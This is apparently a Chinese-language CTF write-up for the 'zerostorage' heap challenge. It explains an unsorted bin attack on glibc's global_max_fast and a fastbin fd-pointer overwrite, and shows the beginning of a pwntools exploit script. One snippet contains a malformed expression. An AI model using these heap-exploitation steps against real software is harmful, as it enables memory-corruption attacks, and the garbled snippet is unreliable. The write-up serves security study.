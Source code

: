 这题可以overwrite global_max_fast的值为unsorted bin的地址(肯定很大)，这样以后分配的chunk都会被当做fastbin来处理。

```c
insert(8)  /* remove chunk 0 from unsorted bin */
update(p, 'a'*+ p64(global_max_fast_addr - 0x10))  /*把chunk 2的bk字段改为我们想要覆盖的addr-0x10*/
insert(8)  /*此时global_max_fast会被overwrite为unsortedbin的地址。
```
前面说unsroted bin中此时有chunk 0和chunk 2，但是当再遇到malloc时，glibc会先拿chunk 0进行分配。所以我们得先把chunk 0从unsorted bin中移除。

### Fast bin unlink attack(LIFO)
OK，虽然这种方法比较简单，但是还是记录一下。这题确实要对堆的分配相当熟悉才行。

```c
+----+----+-----+----+
|    |    |0x100|    |
+----+----+-----+----+
             |     ------------
             |---->|fd=null|bk|
                   ------------
                   0x100
```
假设此时fastbin中的一个bin情况如上，当free一个和它相同大小的chunk时，会加入这个bin中，此时：
```c
+----+----+-----+----+
|    |    |0x140|    |
+----+----+-----+----+
             |     -------------
             |---->|fd=0x100|bk| 0x200
                   -------------
                     |     ------------
                     |---->|fd=null|bk| 0x100
                           ------------
```
当下次分配此fastbin中的chunk时，该fastbin的首个chunk即0x200处的chunk会被分配，此时就剩0x100处的chunk。
假设我们能控制0x200处的chunk，我们把fd字段改为我们想要控制的内存区域的首地址，那样再它分配完后，该fastbin中的唯一的chunk的地址会变成我们控制的地址。
```c
+----+----+-----------+----+
|    |    |target_addr|    |
+----+----+-----------+----+
```
此时再分配相同大小的chunk，那么malloc会返回target_addr+0x10。不过需要注意的是，我们需要在那里构造一个满足条件的size字段来通过检查。否则size字段不满足就无法分配这个区域的内存。

### Script
```python
from pwn import *

debug = 1

if debug:
  #context.log_level = "true"
  p = process('./zerostorage')
else:
  pass

def insert(len, data = ''):
  p.recvuntil("Your choice: ")
  p.sendline('1')
  p.recvuntil("Length of new entry: ")
  p.sendline(str(len))
  p.recvuntil("Enter your data: ")
  data = data.ljust(len, 'a')
  #print data
  p.send(data)

```